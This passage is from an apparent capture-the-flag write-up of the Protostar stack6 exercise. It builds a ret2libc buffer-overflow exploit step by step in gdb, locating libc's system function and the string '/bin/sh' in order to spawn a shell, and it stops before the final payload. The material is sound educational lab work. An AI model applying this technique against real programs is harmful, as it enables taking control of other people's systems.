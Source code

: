Lets put a breakpoint at the `system` call to see how the stack looks.

```
(gdb) break *0x080483d4
Breakpoint 1 at 0x80483d4
(gdb) r
Starting program: /home/user/stack6/sys

Breakpoint 1, 0x080483d4 in main ()
(gdb) x/8wx $esp
0xbffff7c0:     0x080484a0      0xb7ff1040      0x080483fb      0xb7fd7ff4
0xbffff7d0:     0x080483f0      0x00000000      0xbffff858      0xb7eadc76
(gdb) si
0x080482ec in system@plt ()
(gdb) x/8wx $esp
0xbffff7bc:     0x080483d9      0x080484a0      0xb7ff1040      0x080483fb
0xbffff7cc:     0xb7fd7ff4      0x080483f0      0x00000000      0xbffff858
```

At this point, we can see that the return pointer of system function 0x080483d9 is stored on stack followed by the address 0x80484a0, which has the string '/bin/sh'. We can quickly check this.
```
(gdb) x/s 0x80484a0
0x80484a0:       "/bin/sh"
```

We need to have the stack on stack6 binary to look exactly like this. First, the address of `system`, followed by return pointer of system (this could be anything since we only need system to run /bin/sh), followed by address containing /bin/sh (0x080484a0)

Lets use the buffer overflow to write these onto stack at the ret of stack6. Before that, we need to find the address of /bin/sh and system function

```
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

address of system is 0xb7ecffb0. We can find the address of /bin/sh using 'find' in gdb, but the address found doesn't actually has it.

```
(gdb) info proc map
process 1936
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
```